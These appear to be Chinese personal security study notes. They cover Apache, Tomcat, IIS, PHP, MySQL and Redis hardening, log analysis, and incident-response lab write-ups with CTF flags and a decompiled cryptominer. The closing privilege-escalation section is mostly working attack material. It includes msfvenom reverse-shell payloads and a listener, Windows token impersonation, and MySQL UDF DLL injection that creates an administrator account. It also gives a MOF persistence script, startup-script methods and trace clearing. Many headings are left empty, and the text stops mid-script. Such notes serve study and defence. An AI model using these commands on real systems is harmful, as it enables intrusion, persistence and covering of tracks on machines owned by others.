  - 检查httpd.conf配置文件中是否允许使用非专用账户(如root用户)运行Apache服务
  - Linux系统默认使用apache或者nobody用户,Unix系统默认使用daemon

- `授权设置`

  - 严格控制Apache主目录的访问权限,非超级用户不能修改该目录中的内容

  - 1.Apache的主目录对应于Apache Server配置文件httpd.conf中的Server Root控制项

    ```bash
    Server Root /usr/local/apache
    
    # 判定条件:非超级用户不能修改该目录中的内容
    # 检测操作:尝试进行修改,看是否能修改该目录中的内容
    ```

  - 2.严格设置配置文件和日志文件的权限,防止未授权访问

    ```bash
    # 设置配置文件为属主可读写,其它用户无读写权限
    chmod 644 /var/log/httpd/*.log
    
    # /etc/httpd/conf/httpd.conf 配置文件的默认权限是644
    # /var/log/httpd/*.log 日志文件的默认权限644,默认设置即符合要求
    ```

  

  

  

- `日志设置`

  - Apache设备应配置日志功能,对运行错误,用户访问等事件进行记录,记录内容包括时间,用户使用的ip地址等内容

  - 修改配置文件,设置日志记录文件,记录内容,记录格式

  - `错误日志`

    - LogLevel notice #日志的级别
    - ErrorLog /.../logs/erro_log #日志的保存位置(错误日志)

  - `访问日志`

    - LogFormat %h %l %u %t \" %r\" %>s %b "%{Accept}i\"%{Referer}i\" \ "%{User-Agent}i ""
    - combined
    - CustomLog /.../logs/access_log combined (访问日志)

  - `注意`

    - `ErroLog`指令设置错误日志文件名和位置.错误日志是最重要的日志文件.Apache httpd 程序将在这个文件中存放诊断信息和处理请求中出现的错误.若要将错误日志传送到Syslog,则执行`ErrorLog syslog`命令
    - `Customlog`指令指定了保存日志文件的具体位置以及日志的格式.访问日志中会记录服务器所处理的所有请求
    - `LogFormat`命令用于设置日志格式,建议设置为combined格式
    - `LogLevel`命令用于调整记录在错误日志的信息的详细程度,建议设置notice.日志的级别,默认是warn级别,notice级别比较详细,但在实际中由于日志会占用大量硬盘空间

    

    

- `禁止外部文件`

  - 修改httpd.conf配置文件

    ```bash
    Order Deny,Allow
    Deny from all
    ```

    

  - 设置可访问的目录

    ```cmd
    Order Allow,Deny
    Allow from /web
    ```

  - 默认配置文件

    ```cmd
    Options FollowSymLinks
    AllowOverride None
    ```

- `禁止目录列出`

  - 目录列出会导致明显信息泄露或下载,建议禁止Apache列表显示文件,在/etc/httpd/httpd.conf配置文件中删除Options的Indexs设置即可

  - 1.修改 httpd.conf 配置文件

    ```cmd
    # Options Indexs FollowSymLinks #删除Indexs
    Options FollowSymLinks
    AllowOverride None
    Order allow,deny
    Allow from all
    ```

  - 2.将`Options Indexs FollowSymLinks 中`的`Indexs`去掉,就可以禁止Apache显示该目录结构,Indexs的作用就是当该目录下没有index.html文件时,自动显示目录结构

- `错误页面重定向`

  - 1.修改httpd.conf配置文件

    ```cmd
    ErrorDocument 400 /custom400.html
    ErrorDocument 401 /custom401.html
    ErrorDocument 403 /custom403.html
    ErrorDocument 404 /custom404.html
    ErrorDocument 405 /custom405.html
    ErrorDocument 500 /custom500.html
    ```

  - 注意:Customxxx.html为要设置的错误页面

  - 2.重新启动Apache服务

- `拒绝服务防范`

  - 根据业务需要,合理设置`session`时间,防止拒绝服务攻击

  - 1.修改 httpd.conf 配置文件

    ```bash
    Timeout 10 #客户端与服务器端建立连接前的时间间隔
    KeepAlive on
    KeepAliveTimeout 15 #限制每个session的保持时间是15秒
    ```

    

  - 2.重新启动Apache服务

- `隐藏Apache版本号`

  - 隐藏版本号及其它敏感信息
  - 修改httpd.conf配置文件
  - `ServerSignature Off ServerTokens Prod`

- `关闭TRACE功能`

  - 关闭TRACE功能,防止TRACE方法被访问者恶意利用
  - 在 /etc/httpd/conf/httpd.conf 配置文件中添加以下设置参数
  - TraceEnable Off

  

- `禁用CGI`

  - 如果服务器上不需要运行CGI程序,建议禁用
  - 将cgi-bin目录的配置文件和模块都进行注释

  

- `绑定监听地址`

  - 服务器有多个IP地址时,只监听提供服务的IP地址
  - 1.执行命令查看是否绑定IP地址
  - cat /etc/httpd/conf/httpd.conf|grep Listen
  - 2.修改 /etc/httpd/conf/httpd.conf配置文件
  - Listen x.x.x.x:80
  - 监听功能默认监听所有地址,如果服务器只有一个IP地址可不修改该项设置,如果有多个IP可根据需要进行设置

- `删除缺省安装的无用文件`

  - 删除缺省HTML文件
  - rm -rf /usr/local/apache2/htdocs/*
  - 删除缺省的CGI脚本
  - rm -rf /usr/local/apache2/cgi-bin/*
  - 删除Apache的说明文件
  - rm -rf /usr/local/apache2/manual
  - 删除源代码文件
  - rm -rf /path/to/httpd-2.2.4*

- `禁用非法的Http方法`

  - 禁用PUT,DELETE等危险的HTTP方法,修改httpd.conf配置文件,只允许get和post

    ```http
    <location/>
    <LimitExcept GET POST CONNECT OPTIONS>
    Order Allow,Deny
    Deny from all
    </LimitExcept>
    </Location>
    ```

****

##### Tomcat安全加固

- 修改默认后台账户密码
- 网络访问控制,使用`安全组防火墙`功能对管理后台的URL地址进行拦截,或者将部署目录中webapps文件夹中的manager,host-manager文件夹全部删除,并注释掉Tomcat目录中的conf文件夹中的tomcat-users.xml文件中的所有代码
- 修改端口
- 开启访问日志,取消注释相关代码


 	->  禁止目录列出


​	-> 删除该目录下所有文件


****

##### IIS安全加固

- 管理工具-->IS管理器-->网站-->dvbbs-->右键-->属性(以下配置大多数都在这里修改)

- 修改默认日志路径

- 默认日志路径:c:\windows\system32\logfile，修改到其他路径:d:\dvbbslog，可以设置为system读写,administrator只读权限。

- > 1.修改日志属性
  > 网站-->属性-->高级(日志记录属性):勾选协议版本、勾选cookies(小技巧，查找日志的
  > 关键在于选择关键字，如在日志里面搜索404关键字，因为如果攻击者对网站进行猜后台的时候
  > 肯定会尝试提交不同的目录，没有攻击者提交的文件目录就会返回404错误，因此可以借助日志
  > 信息判断遭受何种攻击)
  > 2.删除所有不必要的映射(扩展名,
  > 主目录--配置--映射(如使用aspx、asp的就仅仅留下这两个，其余的全部删除，如cercdx等[这是为了防止上传网马1)

- > 3.不要向客户端发送详细信息
  > 想客户端不要发送详细信息，应该发送自定义的信息，如可以发送“110网站监控.."主目录-->配置-->选项(调试)
  >
  > 4.IIS权限
  > 不给写入和目录浏览(写入会上传网马，目录浏览会导致目录遍历甚至下载)
  > 5.限制后台登录的IP地址
  > 登录后台地址:admin--右键--属性--目录安全性--允许特定的IP地址或IP地址段
  > 6.删除所有的自定义错误c:lwindwoshelpliishelp

****

##### PHP安全加固

- `启用 PHP 的安全模式`
- PHP 环境提供的安全模式是一个非常重要的内嵌安全机制，PHP 安全模式能有效控制一些 PHP 环境中的函数(例如system()函数)，对大部分的文件操作函数进行权限控制，同时不允许对某些关键文件进行修改(例如 /etc/passwd)。但是，默认的 php.ini配置文件并没有启用安全模式。可以通过修改 `php.ini` 配置文件启用 PHP 安全模式: `1.safe mode=on`
- `用户组安全`
- 当启用安全模式后，如果`safe_mode_gid`选项被关闭，PHP 脚本能够对文件进行访问，且相同用户组的用户也能够对该文件进行访问。
  因此，建议将该选项设置为关闭状态:
  `1.safe mode gid = off`
  `注意`:该选项参数仅适用于 Linux 操作系统。
  如果不进行该设置，您可能无法对服务器网站目录下的文件进行操作。
- `安全模式下执行程序主目录`
- 如果启用了安全模式后，想要执行某些程序的时候，可以指定需要执行程序的主目录，例如:`1.safe_mode_exec_dir=/usr/bin`
  一般情况下，如果不需要执行什么程序，建议您不要指定执行系统程序的目录。您可以指定一个目录,然后把需要执行的程序拷贝到这个目录即可，例如:`2.safe_mode_exec_dir=/temp/cmd`
  但是，更推荐您不要执行任何程序。这种情况下，只需要将执行目录指向网页目录即可:`3.safe_mode_exec_dir=/usr/www`
  `注意`:执行目录的路径以您实际操作系统目录路径为准。
- `安全模式下包含文件`
- 如果您需要在安全模式下包含某些公共文件，您只需要修改以下选项即可:`1.safe_mode_include_dir=/usr/www/include/`一般情况下，PHP 脚本中包含的文件都是在程序已经写好的，可以根据您的具体需要进行设置。
- `控制 PHP脚本能访问的目录`
- 使用`open_basedir`选项能够控制 PHP 脚本只能访问指定的目录，这样能够避免 PHP 脚本访问不应该访问的文件，一定程度下降低了 phpshell 的危害。一般情况下，可以设置为只能访问网站目录:
  `1.open basedir=/usr/www`
- `关闭危险函数`
- 如果启用了安全模式，那么可以不需要设置函数禁止，但为了安全考虑，还是建议您进行相关设置。
  例如，您不希望执行包括`system()`等在内的执行命令的 PHP 函数，以及能够査看 PHP 信息的`phpinfo()`等函数
  那么您可以通过以下设置禁止这些函数:
  `1.disable_functions = system, passthru, exec, shell exec, popen,phpinfo,escapeshellarg,escapeshellcmd,proc_close, proc_open,dl`如果想要禁止对于任何文件和目录的操作，那么您可以关闭以下文件相关操作。`2.disable_functions = chdir, chroot, dir, getcwd, opendir, readdir, scandir, fopen, unlink, delete, copy, mkdir
  rmdir, rename, file, file_get_contents, fputs, fwrite, chgrp,chmod, chown`
  `注意`:以上设置中只列举了部分比较常用的文件处理函数，您也可以将上面的执行命令函数和这些文件处理函数相结合，就能给抵制大部分的phpshell威胁。
- `关闭PHP版本信息在HTTP头中的泄露`
- 为了防止黑客获取服务器中 PHP 版本的信息，您可以禁止该信息在 HTTP 头部内容中泄露:`1.expose_php = off`
  这样设置之后，黑客在执行`telnet <domain>80`尝试连接您的服务器的时候，将无法看到 PHP 的版本信息。
- `关闭注册全局变量`
- 在 PHP 环境中提交的变量，包括使用 POST 或者 GET命令提交的变量，都将自动注册为全局变量，能够被直接访问。这对您的服务器是非常不安全的，因此建议您将注册全局变量的选项关闭，禁止将所提交的变量注册为全局变量。`1.register_globals = off`
  `注意`:该选项参数在 PHP 5.3 以后的版本中已被移除。
  当然，如果这样设置之后，获取对应变量的时候就需要采取合理方式。例如，获取 GET命令提交的变量 var，就需要使用`$_GET['var']`命令来进行获取，在进行 PHP 程序设计时需要注意。
- `SQL注入防护`
- SQL注入是一个非常危险的问题，小则造成网站后台被入侵，重则导致整个服务器沦陷。`magic_quotes_gpc`选项默认是关闭的。如果打开该选项，PHP 将自动把用户提交对 SQL 查询
  的请求进行转换(例如，把’ 转换为\’等)，这对于防止 SQL注入攻击有很大作用，因此建议将该选项设置为:`1.magic quotes gpc=on`注意:该选项参数在 PHP 5.4.0 以后的版本中已被移除
- `错误信息控制`
- 一般 PHP 环境在没有连接到数据库或者其他情况下会有错误提示信息，错误信息中可能包含 PHP 脚本当前的路径信息或者査询的 SQL语句等信息，这类信息如果暴露给黑客是不安全的，因此建议禁止该错误提示:`1.display_errors = Off`如果确实要显示错误信息，一定要设置显示错误信息的级别。例如，只显示警告以上的错
  误信息:`2.error_reporting=E_WARNING &E_ERROR`注意:强烈建议关闭错误提示信息
- `错误日志`
  建议您在关闭错误提示信息后，对于错误信息进行记录，便于排查服务器运行异常的原因:`1.log errors= On`同时，需要设置错误日志存放的目录，建议您将 PHP 错误日志与 Apache 的日志存放在
  同一目录下:`2.error log=/usr/local/apache2/logs/php error.log`注意:该文件必须设置允许 Apache 用户或用户组具有写的权限。

****

### 数据库安全加固

#### MySQL安全加固

- `帐号安全`
- 禁止 Mysql 以管理员帐号权限运行.以普通帐户安全运行 mysqld，禁止以管理员帐号权限运行 MySQL服务。在/etc/my.cnf配置文件中进行以下设置。`1.mysql.server`,`2.user=mysql`


- `删除无关账户`
- DROP USER 语句可用于删除一个或多个 MySQL账户。使用 DROP USER 命令时，必须确保当前账号拥有 MySQL数据库的全局CREATE USER 权限或 DELETE 权限。账户名称的用户和主机部分分别与用户表记录的 User 和 Host 列值相对应。执行`DROP USER user;`语句，您可以取消一个账户和其权限，并删除来自所有授权表的帐户权限记录
- `口令`
- 检查账户默认密码和弱密码。口令长度需要至少八位，并包括数字、小写字母、大写字母和特殊符号四类中的至少两种类型，且五次以内不得设置相同的口令。密码应至少每 90 天进行一次更换。可以通过执行以下命令修改密码:
  `1.mysal> update user set password=passwordl'test!p3' where user='root';`
  `2.mysal> flush privileges;`
- `权限`
- 

- `授权`
- 
- `开启日志审计功能`


- 

- `安装最新补丁`
- 确保系统安装了最新的安全补丁。注意:在保证业务及网络安全的前提下，并经过兼容性测试后，安装更新补丁
- `禁止远程访问`
- 

- `设置可信ip访问控制`
- 

- `连接数设置`
- 

****

#### phpMyadmin安全加固

- 

- `网络访问控制策略`
- 

- `账户与口令安全策略`
- 设置强度复杂的口令，可以有效避免被攻击者轻易猜解成功，设置完毕后无需重启服务，及时生效;根据使用人员角色对数据库账号进行精细化授权，防止运维风险。

****

#### MongoDB安全加固

- 

- `管理员自查`
- 

- 

- 

- 

- 

- 

- 


- 

- 

****

#### Redis服务安全加固

- 漏洞描述

```sql
/*
Redis 因配置不当存在未授权访问漏洞，可以被攻击者恶意利用。
在特定条件下，如果 Redis 以 root 身份运行，黑客可以给root 账号写入 SSH 公钥文件，直接通过 SSH登录受害服务器，从而获取服务器权限和数据。一旦入侵成功，攻击者可直接添加账号用于SSH 远程登录控制服务器，给用户的 Redis 运行环境以及 Linux 主机带来安全风险，如删除、泄露或加密重要数据，引发勒索事件等。
```

- 位置:`/etc/redis.conf`,去掉第二个注释


****

- `网络层加固`

```sql
# 取消注释
bind 192.168.1.100 10.0.0.1

# 设置防火墙策略
iptables -A INPUT -s 192.168.1.100 -p tcp --dport 6379 -j ACCEPT

# 设置访问密码
# requirepass foobared
requirepass myStrongPassword123

# 服务运行权限最小化
useradd -M -s /sbin/nologin [用户名]

# 服务精细化授权
rename-command CONFIG ""         # 禁用 CONFIG 命令
rename-command FLUSHALL ""       # 禁用 FLUSHALL 命令
rename-command FLUSHDB ""        # 禁用 FLUSHDB 命令
rename-command SHUTDOWN ""       # 禁用 SHUTDOWN 命令
rename-command DEBUG ""          # 禁用 DEBUG 命令
rename-command CONFIG ""         # 禁用 CONFIG 命令
rename-command SHUTDOWN "nosd"   # 将 SHUTDOWN 重命名为 nosd
rename-command FLUSHALL "naflush" # 将 FLUSHALL 重命名为 naflush

# 安全补丁(升级)
```


****

### 日志分析

#### Windows日志

> 1.事件日志
>
> 2.IIS日志
>
> 3.FTP日志
>
> 4.数据库日志
>
> 5.邮件服务日志

- Windows事件日志文件实际上是以特定的数据结构的方式存储内容，其中包括有关系统，安全，应用程序的记录
- 每个记录事件的数据结构中包含了9个元素(可以理解成数据库中的字段):日期/时间、事件类型、用户、计算机、事件ID、来源、类别、描述、数据等信息
- 日志存放在`C:\windows\system32\winevt\logs`
- 查看方法:`win+r -> eventvwr.msc`

****

##### 事件日志

- 分类:`应用程序日志`,`系统日志`,`安全日志`,`转发事件`
- 1.`应用程序日志`


- 2.`系统日志`


- 3.`安全日志`


****

##### 常见事件日志分析

> 1.用户登录/注销事件
>
> 2.远程访问事件(RDP)
>
> 3.无线网络接入
>
> 4.USB移动介质插入或拔出


****

#### Linux日志

> 1.内核及系统日志
>
> 2.用户日志
>
> 3.程序日志

- 日志默认保存位置:`/var/log/`

- 查看日志配置情况:`more /etc/rsyslog.conf`
- 定时任务相关日志:`var/log/cron`
- 打印信息日志:`/var/log/cups`
- 开机自检信息:`/var/log/dmesg`
- 邮件信息:`/var/log/mailog`
- 系统重要信息:`/var/log/message`
- 记录登录错误信息日志:`/var/log/btmp`
- 永久记录所有用户的登录:`/var/log/wtmp`
- 记录当前已经登陆的用户信息:`/var/log/utmp`
- 记录验证和授权信息:`/var/log/secure`
- 主配置文件:`/etc/rsyrslog.conf`和`/etc/rsyslog.d`

****

```bash
# 获取爆破本机ip的字典
grep "Failed password" /var/log/secure|perl -e 'while($_=<>){ /for(.*?) from/; print "$1\n";}'|uniq -c|sort -nr   

# 显示爆破本机ssh的ip
sudo grep "Failed password" /var/log/secure | awk '{print $(NF-3)}' | sort | uniq -c | sort -nr

# 查看哪些成功登录的
grep "Accepted" /var/log/secure   
```


****


- 常见日志文件分析

  - 记录最后一次信息:`/var/log/lastlog`

  

- 登录用户的信息:`/var/log/utmp`-> `w`显示正在登录用户的信息


- 记录每个用户登录退出...信息:`/var/log/wtmp`


- 登录失败日志:`/var/log/btmp`


- 系统日志信息:`/var/log/messages`

```bash
# 仅看错误或告警信息
egrep -ri 'errorwarn' /var/log/messages
```

- 系统启动日志:`/var/log/boot.log`

```bash
# 查看
cat /var/log/boot.log
```

****

#### 中间件日志

> 1.错误日志
>
> 2.访问日志
>
> 3.传输日志
>
> 4.Cookie日志

##### Apache日志分析

- 位置`/var/log/httpd/access_log`

- 查看ip

```bash
cat access_log | awk '{print $1}'
```


- 显示访问前10的ip地址

```bash
cat access_log | awk '{print $1}'|sort|uniq -c|sort -nr|head -10
```


- 显示指定时间后的日志

```bash
# 查看10月15号以后的日志
awk '$4 >= "[15/Oct/2024:00:00:00"' access_log
```

- 显示指定的ip连接情况

```bash
grep "2024:05" access_log | awk '{print $4}' | sort | uniq -c | sort -nr
```

- 查看指定ip做了什么

```bash
cat access_log |grep 192.168.2.1| awk '{print $1 "\t"$8"\t"$11}'| sort|uniq -c|sort -nr|more
```


- 查看最近访问量最高的文件

```bash
cat access_log |tail -n 10000|awk '{print $7}'|sort|uniq -c |sort -nr|more
```


****

##### IIS日志分析

- 日志文件默认位置
  - IS7.5:%SystemDrive%\inetpub\logs\LogFiles
  - lS6.0:%systemroot%\system32\logfiles\w3svc1\


****

#### 数据库日志

##### MySQL数据库日志

> 1.错误日志
>
> 2.查询日志
>
> 3.慢查询日志
>
> 4.二进制日志

- 通过命令查看错误的日志文件

```mysql
show global variables like '%log_error';
```


- 位置/etc/my.cnf

```bash
cat /etc/my.cnf
```


- 常见的`错误日志`


- `查询日志`


```mysql
# 查询日志是否开启
SHOW VARIABLES LIKE '%general_log%';
```


- 开启日志


- `慢查询日志`(防止盲注)

```sql
# 查看慢查询日志是否开启
show global variables like '%slow%';
```


- 开启慢查询日志

```sql
SET GLOBAL slow_query_log = 'ON';
SET GLOBAL slow_query_log_file = '/var/log/mysql/mysql-slow.log';
SET GLOBAL long_query_time = 2;
```


- `二进制日志`(用于记录修改数据或有可能引起数据改变的语句)

```bash
# 查询是否开启,位置 /etc/my.cnf
show variables like 'log_bin';
```


- 开启方式(没有实现)

```sql
[mysqld]
log_bin = mysql-bin    					 # 二进制日志文件路径和前缀
server_id = 1                          # 为 MySQL 实例分配唯一的 server_id
binlog_format = ROW                    # 日志格式，可以是 STATEMENT、ROW 或 MIXED
```

****

### 应急响应

#### Linux1应急响应

##### 查看攻击者IP


- 基本确定ip为 `192.168.75.129`

##### 查看最后一次登录时间


- 似乎没什么用

##### 查看历史执行的命令


- 拿到第一个flag

##### 执行第一个命令看看


- 获取第二个flag

##### 查看有bin/bash的用户


- 好像也没有什么可用的

##### 查看计划任务


- 发现没有

##### 查看数据库日志


- 这里其实难度挺大的,需要挨着使用命令在(日志,配置文件)模糊匹配flag

```bash
grep -i 'flag{' /var/lib/redis
grep -i 'flag{' /etc/redis.conf
grep -i 'flag{' .....
```


##### 完成


****

#### Linux2应急响应

##### 查看攻击者ip


- ip为`192.168.20.1`

##### 查看最后一次登录时间


##### 查看执行的历史命令

```bash
systemctl disable firewalld
systemctl disable --now firewalld
setenforce 0
vim
vi /etc/sysconfig/selinux 
poweroff
ip a
cd /var/
ls
cd ww
cd /home/
ls
mysql
yum install -y wget && wget -O install.sh https://download.bt.cn/install/install_6.0.sh && sh install.sh ed8484bec
BT
bt
ls
cd /www/
cd wwwroot/
ls
cd 127.0.0.1/
ls
cd ..
ls
cd ..
ls
cd wwwlogs/
ls
cat 127.0.0.1.log  -->flag1
cd nodejs/
ls
cd ..
ls
cd tcp-error.log 
cat tcp-error.log 
cat nginx_error.log 
cat access.log 
ls
cat 127.0.0.1.log 
cd /www/
ls
cd wwwlogs/
ls
cat 127.0.0.1.log 
bt
ls
cd /www/wwwroot/
ls
cd 127.0.0.1/
ls
rm -rf flag1 1
ls
rm -rf version2.php 
ls
hardlink 
hwclock 
ls
docker ps
rm -rf pe9.sql 
ls
cd vendor/
ls
cd ..
ls
cd ..
sl
ls
ls -a
cd 127.0.0.1/
ls
ls -a
vim .api
ls
ls -a
mkdir .api
ls
ls -a
cd .api/
l
ls
cd ..
ls
cd ap
cd api/
ls
cp * ../.api/
ls
cd ..
ls
cd .api/
ls
vim mpnotify.php 
yum install vim
ls
vim  alinotify.php 
cat /etc/shadow
who
w
history
useradd flag3{5LourqoFt5d2zyOVUoVPJbOmeVmoKgcy6OZ}
env
$flag3 = [root@web-server .api]# useradd flag3{5LourqoFt5d2zyOVUoVPJbOmeVmoKgcy6OZ}
useradd: invalid user name 'flag3{5LourqoFt5d2zyOVUoVPJbOmeVmoKgcy6OZ}'
$flag3 = flag{5LourqoFt5d2zyOVUoVPJbOmeVmoKgcy6OZ}
vim /etc/profile
source /etc/p
source /etc/profile
env
history 
q
e
eexir
exit
history 
ls
chmod +X go_build_untitled.exe 
l
chmod +x go_build_untitled.exe 
ls
./go_build_untitled.exe 
ls
mv go_build_untitled.exe wp
ls
./wp 
passwd root
clear 
./wp 
clear 
pwd
./wp 
```

##### 根据攻击者修改的密码

- 翻阅php获取账号和密码

- 数据库账号:`kaoshi`,密码:`5Sx8mK5ieyLPb84m`

- 登录phpmyadmin

  

- 尝试解密


##### 登录后台查找shell


- ```
  提交攻击者IP？
  192.168.20.1
  回答正确！
  提交攻击者修改的管理员密码(明文)
  Network@2020
  回答正确！
  提交第一次Webshell的连接URL（http://xxx.xxx.xxx.xx/abcdefg?abcdefg只需要提交abcdefg?abcdefg）
  index.php?user-app-register
  回答正确！
  提交Webshell连接密码
  Network2020
  回答正确！
  提交数据包的flag1
  ```


##### flag1

- 追踪tcp流
- `flag1{Network@_2020_Hack}`


##### shell文件


##### flag2

- `flag{bL5Frin6JVwVw7tJBdqXlHCMVpAenXI9In9}`


#### flag3

`flag{5LourqoFt5d2zyOVUoVPJbOmeVmoKgcy6OZ}`


##### 完成


****

#### Windows应急响应1

##### 查找攻击者上传的webshell


- 访问目录查看连接密码


- 攻击者ip地址:`192.168.126.1`

##### 隐藏的后面用户


##### 找到挖矿程序


- 进行反编译,查看

```py
# uncompyle6 version 3.9.2
# Python bytecode version base 3.8.0 (3413)
# Decompiled from: Python 3.8.10 (default, Sep 11 2024, 16:02:53) 
# [GCC 9.4.0]
# Embedded file name: Kuang.py
import multiprocessing, requests

def cpu_intensive_task():
    while True:
        try:
            requests.get("http://wakuang.zhigongshanfang.top", timeout=10)
        except:
            pass


if __name__ == "__main__":
    cpu_count = multiprocessing.cpu_count()
    processes = [multiprocessing.Process(target=cpu_intensive_task) for _ in range(cpu_count)]
    for process in processes:
        process.start()
    else:
        for process in processes:
            process.join()

# okay decompiling /tmp/temp_11604878450251652175/Kuang.pyc
```

- 得到矿池域名ZZ:`akuang.zhigongshanfang.top`

##### 完成


****

#### Windows应急响应2

##### 获取攻击攻击者的ip


- ip1:`192.168.126.129`
- ip2:`192.168.126.135`

##### 获取攻击者上传的webshell


- webshell:`system.php`

##### 获取攻击者qq号


- QQ号为文件名

##### 获取攻击者伪服务器地址


- 对应伪服务器和端口号

##### 结束


****

#### Windows应急响应3

##### 获取攻击者ip


- ip1:`192.168.75.130`


##### 隐藏用户名就不用说了,登录我就看到了

- 用户名:`hack6618$`
- 

#### 找flag

- flag1

- 

- flag2

  

- flag3


****

### 提权

#### 系统漏洞提权

> 利用系统`自身缺陷`提升权限

- 提权流程:`getshell`->`查看目标机补丁记录(systeminfo)`->`寻找对应的exp`->`使用exp提权`

#### 查看补丁对应漏洞号

http://blog.neargle.com/win-powerup-exp-index/#

http://tools.sbbbb.cn/tiquan/

http://bypass.tidesec.com/exp/

#### 查看对应提权exp

http://github.com/SecWiki/windows-kernel-exploits

```cmd
git clone https://github.com/Sanchit60/Windows-Exploit-Suggester.git
```

#### 实战

- 通过`蚁剑`上传`ms16-032.exe`执行命令,如:`ms16-032.exe whoami`


- 使用命令查看安装的补丁

```cmd
# 方法一
systeminfo
# 方法二
wmic qfe get Caption,Description,HotFixID,InstalledOn
```


- 使用`msf`生成后门反弹shell

```cmd
# 32位
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.71.52 LPORT=4444 --arch x86 -f exe -o backdoor.exe
# 64位
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.71.52 LPORT=4444 -f exe -o backdoor.exe

msfconsole
use exploit/multi/handler
set PAYLOAD windows/shell_reverse_tcp -->32位
set PAYLOAD windows/x64/shell_reverse_tcp -->64位
set LHOST 192.168.71.52
set LPORT 4444
exploit
```


- 使用`ms16-075`配合msf提权

```cmd
use incognito	#使用该模块窃取令牌,模仿令牌
list_tokens -u 	#列举当前的令牌
execute -cH -f ./potato.exe		#执行exp
list_tokens -u	#查看令牌,有一个执行system权限的模仿令牌
impersonate_token "NT AUTHORITY\SYSTEM"		#执行窃取令牌命令
```

****

#### Mysql数据库提权

> 前提:获取root用户的账号密码
>
> 注意:如果`into dumpfile`不能用,换`into outfile`

#### 使用`udf`提权

- udf->用户自定义函数,支持用户自定义
- 通过`添加新的函数`,对mysql服务器进行`功能扩充`,从而创建函数,将mysql账号转化为系统system权限
- udf提权是通过root权限导出udf.dll到系统目录下,可以通过调用执行cmd
- 利用条件


```cmd
1.windows 2000,xp,2003
2.MySQL数据库版本
3,账号具有对mysql的插入和删除权限
4.可以将udf.dll写入到相应到目录的权限

# 收集必要信息
select version();
select user();		
select @@basedir;	//获取数据库安装目录

#mysql数据库版本高于5.1,创建导出文件夹,使用NTFS ADS流来创建
select 'xxx' into dumpfile 'mysql目录\\lib::$INDEX_ALLCTION';
select 'xxx' into dumpfile 'mysql目录\\lib\\plugin::$INDEX_ALLCTION';

#导入udf.dll文件
-在sqlmap/data/udf/mysql/目录下,在windows目录钟有32位和64位dll文件(mysql的位数)
-文件夹中的dll文件是通过异或编码的,可以使用sqlmap/extra/cloak.py进行解密
-将dll文件上传到mysql的/lib/plugin目录下

#创建自定义函数
create function sys_eval returns string soname 'udf.dll'; 注意:需要创建.dll文件中存在的函数才可以,用16进制编辑器打开.dll文件查看可编辑的函数

#执行语句
select sys_eval("net user tomato tomato /add")

#将该用户提升为管理员
select sys_eval("net localgroup administrators tomato /add")

#清除痕迹
drop function sys_eval;
delete from mysql.func where name="sys_eval";
```


- `执行命令`


#### 示例

- `连接数据库`

- 查看`默认安装路径`及相应信息

```sql
select @@basedir,version()
select version()
```

- `执行sql语句，将hex编码写入udf3.dll文件`

```sql
# 创建表
create table udf(shellcode BLOB);
```

- 获得`十六进制内容`

- 通过`HxD`等工具打开`udf.dll`文件，获取`十六进制内容`，或通过sql语句获得十六进制内容(在本地或服务器上均可)

- ```sql
  #前一地址为udf.dll文件所在地址，后一路径为要输出的十六进制内容的文件，获得十六进制内容的操作也可直接在本地进行
  select hex(load_file('C:/phpStudy/WWW/udf.dll')) into dumpfile 'C:/phpStudy/WWW/udf.txt';
  ```

  

- 往我们自定义的表中`插入十六进制数据内容`

```sql
insert into laffrex values(unhex('这里放入上一步获得的udf.dll的十六进制代码'));

#例如以下形式：
insert into laffrex values(unhex('4D5A90000300000004000000FFFF0000B800000000000000400000000000000000000000000000000000000000000000000000000000000000000000F80000000E1FBA0E00B409CD21B8014CCD21546869732070726F6772616D2063616E6E6F742062652072756E20696E20444F53206D6F64652E0D0D0A24000000000000004D477BD0092615830926158309261583005E86830B261583005E808308261583005E968307261583005E91830B2615832EE06E8...'));
```


- 将十六进制内容写入udf3.dll文件中

```sql
select shellcode from laffrex into dumpfile 'c:/phpstudy/MYSQL/lib/plugin/udf3.dll';
```


- 根据`udf3.dll`，创建`自定义函数`

1.根据udf文件内容，`选择`使用哪个函数


2.确认所使用函数是否存在，若存在，则考虑换另一个函数，或者删除该函数

```sql
#删除函数语句
DROP FUNCTION sys_eval;
```


```sql
# 创建自定义函数
create function sys_eval returns string soname 'udf3.dll';
```


通过自定义函数，执行相应系统功能

```sql
select sys_eval('whoami');
```


```sql
# 消除痕迹，删除表
DROP TABLE laffrex;
```

****

#### 使用mof提权

- 原理:利用`c:/Windows/system32/wbem/mof`目录下的`nullevt.mof`文件,该文件`每分钟`都会在一个特定的时间去`执行一次`的特性
- 利用条件
  - windows <= 2003
  - 对`c:/Windows/system32/wbem/mof`有读写权限
  - 可实现mof文件到相应目录,例如:`数据库允许外联`,有`webshell`,有可写的sql注入漏洞等情况

- `xxx.mof`文件

```cmd
#pragma namespace("\\\\.\\root\\subscription")

instance of __EventFilter as $EventFilter
{
	EventNamespace = "Root\\Cimv2";
	Name  = "filtP2";
	Query = "Select * From __InstanceModificationEvent "
			"Where TargetInstance Isa \"Win32_LocalTime\" "
			"And TargetInstance.Second = 5";
	QueryLanguage = "WQL";
};

instance of ActiveScriptEventConsumer as $Consumer
{
	Name = "consPCSV2";
	ScriptingEngine = "JScript";
	ScriptText =
	"var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user cxk666 cxk666 /add\")";
};

instance of __FilterToConsumerBinding
{
	Consumer   = $Consumer;
	Filter = $EventFilter;
};
```

#### 示例

- 上传`shell`并连接
- 上传`xxx.mof`脚本
- 移动脚本到`c:/windows/system32/wbem/mof/`目录

```sql
select load_file('c:/phpstudy/www/nullevt.mof') into dumpfile 'c:/windows/system32/wbem/mof/nullevt.mof';
```

- 等待一段时间即可创建成功


#### 启动项提权

- 原理:将一段`vbs`脚本导入到`开机启动项`中,如果管理员`重启服务器`,那么就会`自动调用`该脚本,并`执行`其中的用户添加提权命令
- 利用条件:

```cmd
1.上传到目录必须具备可读写权限
2.调用的cmd也必须拥有足够的权限
3.重启服务器可以利用一些可导致服务器蓝屏的exp,或者ddos拒绝服务
```

- 提权方式:
  - 直接将vbs提权脚本上传到启动项目录下
  - 利用sql命令来进行vbs脚本的创建以及添加

#### 方法一

- 条件`c:/Documents and Settings/All Users/开始/程序/启动` 目录存在`可读写`权限
- 保存为`vbs文件`

```cmd
set wsnetwork=CreateObject("WSCRIPT.NETWORK") 
os="WinNT://"&wsnetwork.ComputerName 
